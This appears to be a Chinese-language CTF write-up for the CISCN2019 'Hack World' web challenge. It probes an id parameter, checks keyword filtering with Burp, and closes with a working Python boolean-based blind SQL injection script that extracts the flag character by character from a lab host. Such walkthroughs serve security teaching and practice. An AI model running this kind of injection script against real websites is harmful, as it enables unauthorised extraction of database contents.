 # [CISCN2019 华北赛区 Day2 Web1]Hack World
TAG:SQL注入 BOOL型注入  
## 解题过程  
![20210108163417](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20210108163417.png)  
输入1时：  
![20210108163435](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20210108163435.png)  
输入2时：  
![20210108163449](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20210108163449.png)  
输入3时：  
![20210108163504](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20210108163504.png)  
输入0时：  
![20210108163521](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20210108163521.png)  
输入a时：  
![20210108163534](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20210108163534.png)  
可能存在bool注入，用burp检测一下关键词屏蔽  
![20210108163549](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20210108163549.png)  
存在很多关键词过滤  
![20210108163606](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20210108163606.png)  
没有屏蔽()和函数，select,from  
![20210108163631](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20210108163631.png)  
根据提示可知，flag在flag表中，叫flag，构建bool注入脚本  
```
import requests

url = 'http://3e01e1b8-730f-40c8-9b32-2a0182d4825d.node3.buuoj.cn/index.php'
result = ''

for x in range(1, 50):
    high = 127
    low = 32
    mid = (low + high) // 2
    while high > low:
        payload = "if(ascii(substr((select(flag)from(flag)),%d,1))>%d,1,2)" % (x, mid)
        data = {
            "id":payload
        }
        response = requests.post(url, data = data)
        if 'Hello' in response.text:
            low = mid + 1
        else:
            high = mid
        mid = (low + high) // 2

    result += chr(int(mid))
    print(result)
```
![20210108163716](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20210108163716.png)  
